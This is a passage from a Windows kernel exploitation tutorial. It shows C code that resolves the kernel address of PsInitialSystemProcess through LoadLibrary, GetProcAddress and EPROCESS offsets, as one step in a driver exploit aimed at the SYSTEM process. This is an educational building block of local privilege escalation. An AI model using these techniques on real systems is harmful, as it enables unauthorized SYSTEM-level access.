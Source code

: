 To find the offset of `PsInitialSystemProcess`, first we need to map the kernel binary (ntoskrnl.exe) into our address space using the `LoadLibrary` function. Next, we can use the `GetProcAddress` function to obtain the user mode address of `PsInitialSystemProcess`. This gives us the exact location of the symbol within our user mode address space.  

By subtracting the base address of the mapped ntoskrnl.exe from the user mode address of `PsInitialSystemProcess`, we can calculate the offset of `PsInitialSystemProcess` inside the kernel when it is loaded in memory. This offset will remain the same for kernel-land.  

```c
PsInitialSystemProcessOffset = PsInitialSystemProcessAddress - ntoskrnlBaseAddress
```

```c
DWORD GetPsInitialSystemProcessOffset() {
	HMODULE ntoskrnl = NULL;
	DWORD dwPsInitialSystemProcessOffset = 0;
	ULONG_PTR pPsInitialSystemProcess = 0;

	// value of ntoskrnl is the base address of the mapped ntoskrnl.exe in our process memory
	ntoskrnl = LoadLibraryA("ntoskrnl.exe");
	if (ntoskrnl == NULL) {
		PRINT_ERROR(L"[-] Couldn't load ntoskrnl.exe\n");
		return 0;
	}

	pPsInitialSystemProcess = (ULONG_PTR)GetProcAddress(ntoskrnl, "PsInitialSystemProcess");
	if (pPsInitialSystemProcess) {
		// substracting from the address of the symbol the base address gives us the offset
		dwPsInitialSystemProcessOffset = (DWORD)(pPsInitialSystemProcess - (ULONG_PTR)(ntoskrnl));
		FreeLibrary(ntoskrnl);
		return dwPsInitialSystemProcessOffset;
	}

	PRINT_ERROR(L"[-] Couldn't GetProcAddress of PsInitialSystemProcess\n");
	return 0;
}
```

Now, to obtain the kernel address of the `PsInitialSystemProcess` pointer, we can simply add the calculated offset to the kernel's base address in kernel memory (which we already got with `EnumDeviceDrivers`). This allows us to precisely locate the `PsInitialSystemProcess` pointer within the kernel.  

Since we will often need to calculate addresses using offsets, it is helpful to create a simple function to streamline the process. Here is an example of such a function:  

```c
ULONG_PTR GetKernelAddress(ULONG_PTR KernelBase, DWORD Offset) {
	return KernelBase + Offset;
}
```

Once we have the kernel address of the `PsInitialSystemProcess` pointer, we can utilize our driver exploit to read its value.  
Below is an example how the functions we created are used to obtain the mentioned addresses. `lpPsInitialSystemProcess` is the kernel address of `PsInitialSystemProcess` which we need to read to get a pointer to the SYSTEM process `EPROCESS`. `lpInitialSystemProcess` is the value of that pointer.  
